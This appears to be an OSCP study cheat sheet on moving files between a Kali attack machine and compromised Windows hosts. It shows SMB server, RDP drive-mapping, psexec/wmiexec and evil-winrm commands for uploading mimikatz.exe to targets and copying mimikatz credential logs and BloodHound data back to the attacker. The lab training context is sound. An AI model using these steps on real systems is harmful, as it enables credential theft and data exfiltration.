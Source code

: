 ##SMB Transfer
kali>impacket-smbserver test . -smb2support  -username ashok -password reddy </br>
WIN>net use m: \\192.168.45.242\home\kali\Desktop\HTB\OSCP\AD\beyond /user:kourosh kourosh </br>
WIN>copy 20240715135750_BloodHound.zip m:\ </br>

 0) SSH

```bash
kali>sudo service ssh start (Transfer file windows to kali)
```

```bash
WIN>scp file kali@192.168.45.208:/home/kali/Desktop/HTB/OSCP(Windows)
```



OSCP Note - https://discord.com/channels/780824470113615893/1148907181480104028
Youtube - https://www.youtube.com/watch?v=kd0sZWI6Blc
1) SMB: 
On Kali:
```bash
impacket-smbserver test . -smb2support  -username ashok -password reddy
```
On Windows:
```powershell
net use m: \\Kali_IP\test /user:kourosh kourosh
copy mimikatz.log m:\
```
2) RDP mounting shared folder:
- Using xfreerdp:
On Kali:
```bash
xfreerdp /cert-ignore /compression /auto-reconnect /u:
offsec /p:lab /v:192.168.212.250 /w:1600 /h:800 /drive:test,/home/kali/Documents/pen-
200
```
On windows:
```powershell
copy mimikatz.log \\tsclient\test\mimikatz.log
```
- Using rdesktop:
On Kali: 
```bash
rdesktop -z -P -x m -u offsec -p lab 192.168.212.250 -r disk:test=/home/kali/Documents/pen-200
```
On Windows:
```powershell
copy mimikatz.log \\tsclient\test\mimikatz.log
```
3) Impacket tools:
psexec and wmiexec are shipped with built in feature for file transfer.
**Note**: By default whether you upload (lput) or download (lget) a file, it'll be writte in `C:\Windows` path.
Uploading mimikatz.exe to the target machine:
```bash
C:\Windows\system32> lput mimikatz.exe
[*] Uploading mimikatz.exe to ADMIN$\/
C:\Windows\system32> cd C:\windows
C:\Windows> dir /b mimikatz.exe
mimikatz.exe
```
Downloading mimikatz.log:
```bash
C:\Windows> lget mimikatz.log
[*] Downloading ADMIN$\mimikatz.log
```
4) Evil-winrm:
- Uploading files:
```bash
upload mimikatz.exe C:\windows\tasks\mimikatz.exe
```
- Downloading files:
```bash
download mimikatz.log /home/kali/Documents/pen-200
```
5) C2 frameworks:
Almost any of the C2 frameworks such as Metasploit are shipped with downloading and uploading functionality.

6) In FTP, binaries in ASCII mode will make the file not executable. Set the mode to binary.

Additional Resources:
File Transfer:  https://www.youtube.com/watch?v=kd0sZWI6Blc
PEN-100: https://portal.offsec.com/learning-paths/network-penetration-testing-essentials-pen-100/books-and-videos/modal/modules/file-transfers

Happy hacking!
